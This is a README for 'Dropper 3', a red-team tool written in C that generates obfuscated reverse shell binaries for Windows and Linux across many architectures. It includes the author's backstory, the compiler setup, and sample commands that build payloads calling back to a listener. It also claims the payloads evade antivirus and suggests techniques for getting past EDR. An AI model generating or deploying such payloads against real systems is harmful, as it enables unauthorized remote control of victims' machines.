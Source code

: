 # Dropper 3 (BCE) - The end of a five year long payload generation odyssey.

![](assets/dropper-3-odyssey.gif)

## Prelude

I started this project to discover a fast and efficient way to generate a reverse shell binary payload without a whole lot of fuss for Cyber Security Experts and Red Teamers alike. From the start, I wanted to use a language that I wasn’t too familiar with, as a challenge for myself to develop this solution. I decided to go with Golang since it was rather popular at the time in our community, and I was anxious to learn the language to keep up with the ever evolving trends in InfoSec. Very quickly I realized how powerful a language like Golang is, as well as some of its common drawbacks. As <a href="https://github.com/byt3bl33d3r">Byt3bl33d3r</a> so elequently put it, Go makes THICC malwares, like 1.8 MB THICC! 😳 Not only that, but the Golang runtime environment and related artifacts tend to migrate with any binary file compiled on ones local system, thus leaving tons of forensic clues for Blue Teamers to determine the origin from where the payload was created, and what tools were used, etc. Just a mess. 

Enter Dropper2. While this project served its purpose at addressing all these pesky artifacts left behind, as best as possible, without going full <a href="https://github.com/burrowers/garble">Garble</a> with it, coupled with some randomized obfuscation, helped get the job done at evading Anti-Virus, and some EDR solutions, at least for a little while. The next step in this evolutionary journey was to test out another unique language growing in popularity, Rust. Over the course of a month, learning the language well enough to be dangerous, and creating <a href="https://github.com/Elmofire/ef">Elmofire</a> as a result, I had yet another obfuscated payload generator, leaving Golang behind, at least for now. After all was said and done, Elmofire, the new and improved Dropper, a solution for the community without all the bloated chubby gophers, and yet, I still felt something was missing from my journey into malware development. 

I decided to take a step back and focus on what other malware authors (good and bad) have used in the past. After thumbing through what seems like endless lines of source code on <a href="https://github.com/vxunderground/MalwareSourceCode">VXUG’s Github</a>, I noticed a very obvious common pattern in language choice: C/C++. This was it! I had always wanted to learn C/C++ but had no idea where to start those 5 years ago. I had learned a great deal regarding low level programming since then, including Assembly fundamentals on various architechtures. Finally, my mind felt ready, and like I’ve always done, I rewrote Dropper, now for a 3rd and final time in C. Taking it way back, (Before the Common Era) 😉

So, with the back story out of the way, may I present: Dropper 3.0 (BCE).

## Dependencies

Given the fact we're using C, you're gonna need every type of compiler used by Dropper3 to build each type of binary payload. Run the following command to install the necessary compilers and build libraries:
<code>sudo apt install gcc make gcc-mingw-w64 binutils-mingw-w64 gcc-mingw-w64-i686 binutils-mingw-w64-i686 gcc-mingw-w64-x86-64 binutils-mingw-w64-x86-64 gcc-x86-64-linux-gnux32 binutils-x86-64-linux-gnu gcc-sparc64-linux-gnu binutils-sparc64-linux-gnu gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu gcc-powerpc-linux-gnu binutils-powerpc-linux-gnu gcc-powerpc64-linux-gnu binutils-powerpc64-linux-gnu gcc-mips-linux-gnu binutils-mips-linux-gnu gcc-mips64-linux-gnuabi64 binutils-mips64-linux-gnuabi64 gcc-i686-linux-gnu binutils-i686-linux-gnu gcc-hppa-linux-gnu binutils-hppa-linux-gnu gcc-hppa64-linux-gnu binutils-hppa64-linux-gnu gcc-alpha-linux-gnu binutils-alpha-linux-gnu gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu gcc-s390x-linux-gnu binutils-s390x-linux-gnu</code>

## Usage

Usage is the same as its predecessors, simply compile the source using <code>gcc -o dropper3 dropper3.c</code> and run <code>./dropper3 -h</code>

E.g. Help Menu
<pre>
$ ./dropper3 -h
Usage: Usage of dropper3:
  -a string
                Architecture: i686, amd64, arm, arm64, powerpc64, powerpc, mips, mips64, s390x, sparc64, riscv64, hppa, hppa64, alpha
  -l string
                Listening host: <listening ip:port>
  -o string
                Output filename: <anything goes>
  -p string             Operating System: windows, linux
  -s string
                Shell type: cmd, powershell, /bin/sh, /bin/bash, /usr/bin/zsh, /system/bin/sh, /bin/busybox
</pre>

E.g. Windows Payload
<pre>
$ ./dropper3 -p windows -a amd64 -l 10.12.1.99:1337 -o potato -s cmd
Operating System: windows
Architecture: amd64
Listening host: 10.12.1.99:1337
Output filename: potato
Shell type: cmd
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$ file potato.exe 
potato.exe: PE32+ executable (console) x86-64, for MS Windows
</pre>

E.g. Linux Payload
<pre>
$  ./dropper3 -p linux -a arm64 -l 10.12.1.99:31337 -o chips -s /bin/sh  
Operating System: linux
Architecture: arm64
Listening host: 10.12.1.99:31337
Output filename: chips
Shell type: /bin/sh
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$  file chips 
chips: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=9eefe4521695a769e0a384e87d1d8ea89b45fd8b, for GNU/Linux 3.7.0, not stripped
</pre>

## F.A.Q.

“So what exactly does this accomplish?”

- Other than my own personal accomplishments, not much; only now instead of producing THICC malwares, the payloads created by Dropper 3 are much smaller, like 1.5MB smaller! Huzzah!

“Besides the weight loss, how much has really changed?”

- Not much to be honest. Still using the same obfuscation and randomization techniques as done in Dropper2. Payloads will still evade off-the-shelf signature-based Anti-Virus, however, for EDRs, you’ll want to couple one of these generated payloads with other techniques, such as Fileless PE Loading, Process Hollowing, Döppleganging, etc. Check out <a href="https://github.com/hasherezade/">Hasherazade’s Github</a> for more awesome research on the topic.

“Is this really the end?”

- Yes, this is the end for Dropper rewrites and language developments. I had initially used this project as an intermediate form of <i>Hello World</i> for malware developers, and I highly recommend anyone out there reading this to follow the same principal. Take an idea for some really cool malware/innocent program you’d like to create, then pick a language you’ve never used before and learn it! Learn that language to build the program you want to see come to life in the language you want to see it written in. I promise you, you’ll learn way more than you ever thought you would, and you’ll become a better developer because of it.

“How about that disclaimer?”

- Awww here it goes! 😎

## Disclaimer

This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. I, hereby relinquish ALL responsibility for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as described. You have been warned.
